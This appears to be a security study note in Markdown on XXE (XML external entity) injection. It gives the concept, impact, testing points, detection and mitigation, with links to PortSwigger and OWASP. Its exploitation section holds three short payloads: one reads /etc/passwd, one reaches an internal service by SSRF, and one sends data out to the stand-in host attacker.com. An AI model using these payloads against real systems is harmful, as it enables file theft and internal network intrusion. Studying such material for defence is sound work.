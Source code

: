 # XXE (XML External Entities) Injection  

---

## Metadata  
- **OWASP Category (2021):** A03 Injection  
- **PortSwigger Link:** [What is XXE (XML external entity) injection? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe)  

- **Sub-topics:**  
  - Classic XXE (file disclosure, SSRF via XML parsers).  
  - Blind XXE (out-of-band exfiltration, timing-based).  

---
   > XML = Extensible markup language is designed for storing and transporting data using a tree-like structure of tags and data… but does not use predefined tags.
>
   > An XML External Entity attack is an injection of an external XML document instead of using inline data itself (`<user>data</user>` ➝ `<user>&xxe;</user>`).
> 
   > XML External Entities = A type of custom entity whose definition is located outside of the XML document via file system or network. They use the SYSTEM keyword, and load the URI from wherever the XML should be loaded.

## 💡 Concept  
- **What is it?** 
> - XXE injection arises when misconfigured applications parse XML input using standard libraries or parsers that support external entity features.  
> - The attack persists since XML features are often enabled by default, even if the application itself doesn’t require them.    


- **Impact**  
> - **Confidentiality:** Read local files or access internal network resources.  
> - **Integrity:** Inject malicious entities to manipulate XML data processing.  
> - **Availability:** Launch DoS via recursive entities.  

---

## 🛠 Exploitation Notes  
- **Where to test:**  
> - File upload endpoints  
> - API requests with XML bodies  
> - SOAP/XML-driven requests  

- **Payloads**  
> 1. **File Disclosure:**  
>   ```xml
>   <?xml version="1.0"?>  
>   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
>   <foo>&xxe;</foo>  
>   ```  
>
> 2. **SSRF via XXE:**  
>   ```xml
>   <?xml version="1.0"?>  
>   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal-service.local/"> ]>  
>   <foo>&xxe;</foo>  
>   ```  
>
> 3. **Blind XXE (exfiltration):**  
>   ```xml
>   <?xml version="1.0"?>  
>   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/&foo;"> ]>  
>   <foo>&xxe;</foo>  
>   ```  

---

## 🔍 Detection  
- **How to identify in apps:**  
> - Observe XML parsing behavior in requests (Content-Type: application/xml).  
> - Inject external entity definitions and check for local file disclosure, OOB HTTP/DNS interactions, and delayed responses.  

---

## 🛡 Mitigation  
- Disable external entity processing in XML parsers.  
- Use safer data formats (JSON) where possible.  
- Apply strict input validation on XML content.  

---

## Extras  
- **Cheat sheet / references:** [XML External Entity Prevention – OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)  

